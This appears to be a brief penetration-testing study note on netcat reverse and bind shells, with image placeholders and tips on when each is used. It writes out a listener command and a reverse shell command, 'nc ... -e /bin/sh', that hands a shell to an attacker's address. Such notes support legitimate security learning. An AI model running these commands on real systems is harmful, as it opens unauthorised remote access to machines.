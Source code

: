 


#  Exploitation Basics

Source: https://www.hackingtitorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

## **Netcat Reverse Shells** - a victim connect to the attacker

![[Pasted image 20240613164237.png]]


- All we do is to listen via

```
nc -lvp 4444
```

- The target connect to us and establish a shell

```
nc 192.168.1.1 4444 -e /bin/sh
```

Example:

![[Pasted image 20240613165943.png]]

## **Netcat Bind Shells** - an attacker connects to the victim

![[Pasted image 20240613164741.png]]


![[Pasted image 20240613170511.png]]


============================================================

NOTE: Use reverse shell 95%
Bind shell usually in external assessment
Bypass firewall just listen instead in port forward in FW